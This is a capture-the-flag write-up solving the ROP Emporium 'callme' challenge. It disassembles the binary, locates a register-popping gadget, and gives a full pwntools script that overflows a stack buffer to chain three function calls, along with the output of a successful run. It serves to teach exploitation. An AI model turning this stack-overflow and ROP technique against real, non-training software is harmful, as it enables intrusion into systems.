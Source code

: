 # ROP - Callme


## Description 

This challenge has been taken from https://ropemporium.com/challenge/callme.html.
The purpose is to change the flow of execution such that the functions ```callme_one, callme_two,``` and ```callme_three``` are called in sequence with ```0xdeadbeefdeadbeef```, ```0xcafebabecafebabe```, and ```0xd00df00dd00df00d``` as parameters for each of them.
More information in the linked website.

## How to build the ROP chain

Download the challenge:
```
curl --output callme.zip https://ropemporium.com/binary/callme.zip
unzip callme.zip && rm callme.zip
```

First, let's see the function written by the programmer:
```
rabin2 -qs callme | grep -ve imp -e ' 0 '
```

>0x00601070 8 stdout
>
>0x00601078 1 completed.7698
>
>0x00400898 90 pwnme
>
>0x004008f2 74 usefulFunction
>
>0x004009b0 2 __libc_csu_fini
>
>0x00601070 8 stdout@@GLIBC_2.2.5
>
>0x004009c0 4 _IO_stdin_used
>
>0x00400940 101 __libc_csu_init
>
>0x00400790 2 _dl_relocate_static_pie
>
>0x00400760 43 _start
>
>0x00400847 81 main


Enter to pwndbg (```gdb-pwndbg callme```) and disassemble ```pwnme``` and ```usefulFunction``` since we're interested in them:

```
pwndbg disass pwnme
Dump of assembler code for function pwnme:
   0x0000000000400898 <+0:     push   rbp
   0x0000000000400899 <+1:     mov    rbp,rsp
   0x000000000040089c <+4:     sub    rsp,0x20
   0x00000000004008a0 <+8:     lea    rax,[rbp-0x20]
   0x00000000004008a4 <+12:    mov    edx,0x20
   0x00000000004008a9 <+17:    mov    esi,0x0
   0x00000000004008ae <+22:    mov    rdi,rax
   0x00000000004008b1 <+25:    call   0x400700 <memset@plt
   0x00000000004008b6 <+30:    mov    edi,0x4009f0
   0x00000000004008bb <+35:    call   0x4006d0 <puts@plt
   0x00000000004008c0 <+40:    mov    edi,0x400a13
   0x00000000004008c5 <+45:    mov    eax,0x0
   0x00000000004008ca <+50:    call   0x4006e0 <printf@plt
   0x00000000004008cf <+55:    lea    rax,[rbp-0x20]
   0x00000000004008d3 <+59:    mov    edx,0x200
   0x00000000004008d8 <+64:    mov    rsi,rax
   0x00000000004008db <+67:    mov    edi,0x0
   0x00000000004008e0 <+72:    call   0x400710 <read@plt
   0x00000000004008e5 <+77:    mov    edi,0x400a16
   0x00000000004008ea <+82:    call   0x4006d0 <puts@plt
   0x00000000004008ef <+87:    nop
   0x00000000004008f0 <+88:    leave  
   0x00000000004008f1 <+89:    ret    
End of assembler dump.
```

As we can see there's a ```rax,[rbp-0x20]``` instruction before the read operation. Here ```0x20``` is subtracted from ```rbp``` since they're the bytes allocated to store the input string (32 bytes): if more chars are inserted it's possible to overwrite the return address of this function, so this is the point where the flow of execution will be changed by us.

```
pwndbg disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x00000000004008f2 <+0:     push   rbp
   0x00000000004008f3 <+1:     mov    rbp,rsp
   0x00000000004008f6 <+4:     mov    edx,0x6
   0x00000000004008fb <+9:     mov    esi,0x5
   0x0000000000400900 <+14:    mov    edi,0x4
   0x0000000000400905 <+19:    call   0x4006f0 <callme_three@plt
   0x000000000040090a <+24:    mov    edx,0x6
   0x000000000040090f <+29:    mov    esi,0x5
   0x0000000000400914 <+34:    mov    edi,0x4
   0x0000000000400919 <+39:    call   0x400740 <callme_two@plt
   0x000000000040091e <+44:    mov    edx,0x6
   0x0000000000400923 <+49:    mov    esi,0x5
   0x0000000000400928 <+54:    mov    edi,0x4
   0x000000000040092d <+59:    call   0x400720 <callme_one@plt
   0x0000000000400932 <+64:    mov    edi,0x1
   0x0000000000400937 <+69:    call   0x400750 <exit@plt
End of assembler dump.
```

This function is useful because:
- we can see that edx, esi, edi are the three registers used to store the parameters
- it contains the instruction addresses of the function calls (```callme_one, callme_two, callme_three```).

Since it's necessary to store values into edx, esi, edi, we need to find gadgets in the executables e.g. instructions which pop values in those registers and ends with a ret. ```ropper``` is a useful tool to find the available ones:

```
ropper -f callme
```

We can note that there's a gadget which it's the one we was looking for:


```0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; ```

Now we have all the elements to build a rop chain.
Here's how the stack should be structured before the ret instruction in the ```pwnme``` function:

```
|                    |
|                    |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|     callme_one     |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|     callme_two     |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|    callme_three    |
----------------------
          |
          V
|                    |
|                    |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x0000000000400720 |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x0000000000400740 |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x00000000004006f0 |
----------------------
        STACK
```

## Exploit

```python
import pwn

p = pwn.process("./callme")

gdb_cmd = [
        'set disassembly-flavor intel',
        #'b *0x0000000000400735',
        #'b *0x0000000000400741',
        'c',
        ]

pwn.gdb.attach(p, gdbscript='\n'.join(gdb_cmd))

def build_callme_payload(p_callme):
    # rdi: first param
    # rsi: second "
    # rdx: third "

    rdi = 0xdeadbeefdeadbeef
    rsi = 0xcafebabecafebabe
    rdx = 0xd00df00dd00df00d
    return pwn.p64(rdi) + pwn.p64(rsi) + pwn.p64(rdx) + pwn.p64(p_callme)

# 0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
p_gadget = pwn.p64(0x000000000040093c)

# start building payload
payload = p_gadget * 6
# Callme One
payload += build_callme_payload(0x400720)
# Callme Two
payload += p_gadget
payload += build_callme_payload(0x400740)
# Callme three
payload += p_gadget
payload += build_callme_payload(0x4006f0)

p.recvuntil('\n>')
p.sendline(payload)

p.interactive()
```
```
python3 exploit.py
```

>[+] Starting local process './callme': pid 15670
>
>[*] running in new terminal: ['/usr/bin/gdb', '-q', './callme', '15670', '-x', '/tmp/pwnsm5xq4d2.gdb']
>
>[+] Waiting for debugger: Done
>
>[*] Switching to interactive mode
>
> Thank you!
>
>[*] Process './callme' stopped with exit code 0 (pid 15670)
>
>callme_one() called correctly
>
>callme_two() called correctly
>
>ROPE{a_placeholder_32byte_flag!}
>
>[*] Got EOF while reading in interactive
